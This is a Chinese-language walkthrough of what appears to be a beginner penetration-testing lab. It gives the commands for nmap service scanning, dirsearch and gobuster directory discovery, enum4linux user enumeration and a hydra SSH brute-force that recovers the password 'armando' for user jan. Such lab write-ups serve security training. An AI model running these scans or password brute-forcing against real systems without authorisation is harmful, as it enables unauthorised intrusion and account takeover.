 # 基础渗透测试

使用nmap进行扫描查看开启了什么服务

```
nmap -sV -T4 10.10.121.121
```

![image-20231130172423327](../图片/image-20231130172423327.png)

使用nmap扫描发现，开启了ssh，http，netbios-ssn ajp13服务

发现了http服务，使用目录扫描工具dirsearch

```
dirsearch -u  http://10.10.121.121 -t 10
```

![image-20231130174549582](../图片/image-20231130174549582.png)

也可以用gobuster进行目录扫描

```
gobuster dir -u http://10.10.143.178 -w 字典
```

![image-20231203163506492](../图片/image-20231203163506492.png)

扫描出web服务隐藏的目录：development

在目录下的文档找到了服务器开启了SMB服务（文件共享服务）并且版本为2.5.12

![image-20231203164036088](../图片/image-20231203164036088.png)

使用enum4linux找到用户名

```
enum4linux -a -o 10.10.143.178
```

![image-20231203172413224](../图片/image-20231203172413224.png)

找到用户信息：kay，jan

![image-20231203172327049](../图片/image-20231203172327049.png)

使用hydra进行爆破ssh

```
hydra -l jan -P /home/gary/文档/字典/pass_weak18000.txt -vV -o ssh.log -e ns 10.10.54.237 ssh
```

爆破出密码为：armando

![image-20231203230703073](../图片/image-20231203230703073.png)